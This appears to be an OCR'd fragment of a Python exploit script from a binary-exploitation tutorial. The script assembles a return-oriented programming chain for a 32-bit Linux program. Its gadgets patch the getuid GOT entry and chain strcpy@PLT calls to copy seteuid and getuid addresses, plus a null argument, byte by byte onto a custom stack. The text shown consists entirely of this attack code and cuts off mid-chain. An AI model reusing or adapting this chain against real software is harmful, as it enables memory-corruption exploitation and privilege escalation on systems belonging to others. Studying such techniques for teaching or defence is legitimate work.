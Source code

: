 ``` python
buf += conv(esi)              #esi
buf += conv(edi)              #edi
buf += conv(dummy)
buf += conv(g5)               #pop ebx; ret;
buf += conv(ebx)              #ebx
buf += conv(g4)               #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2)               #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40              #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1)               #addl %eax, 0x5D5B04C4(%ebx); ret;
#Custom Stack
#Below stack frames are for strcpy (to copy seteuid@PLT to custom stack)
cust_esp += 4                 #Increment by 4 to get past Dummy EBP.
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct1)
#Below stack frames are for strcpy (to copy getuid@PLT to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct1)
#Below stack frames are for strcpy (to copy seteuid arg  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
```